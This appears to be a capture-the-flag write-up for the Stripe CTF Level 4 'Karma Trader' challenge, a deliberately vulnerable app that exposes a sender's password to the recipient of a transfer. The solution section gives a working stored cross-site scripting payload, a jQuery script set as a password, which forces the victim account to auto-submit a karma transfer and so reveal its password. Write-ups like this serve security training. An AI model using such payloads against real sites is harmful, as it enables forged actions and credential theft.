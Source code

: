 ## Level 4

The Karma Trader is the world's best way to reward people for good deeds: https://level04-1.stripe-ctf.com/user-xxxxxxxxxx. You can sign up for an account, and start transferring karma to people who you think are doing good in the world. In order to ensure you're transferring karma only to good people, transferring karma to a user will also reveal your password to him or her.

The very active user karma\_fountain has infinite karma, making it a ripe account to obtain (no one will notice a few extra karma trades here and there). The password for karma_fountain's account will give you access to Level 5.

You can obtain the full, runnable source for the Karma Trader from `git clone https://level04-1.stripe-ctf.com/user-xxxxxxxxxx/level04-code`. We've included the most important files below.

### Running

- Install bundler: `gem install bundler`
- Run srv.rb: `./srv.rb`
- Point your browser to `localhost:4567`

### Solution

  * Create a new user with name `user` and password:

  ```javascript 
    <script type="text/javascript">
      $(function() {
        $("input[name=to]").val("user");
        $("input[name=amount]").val(1);
        $("form:first").submit();
      });
    </script>
  ```
  * Send `1` karma to user `karma_fountain`

Originally posted at [https://stripe-ctf.com/levels/4](https://stripe-ctf.com/levels/4).
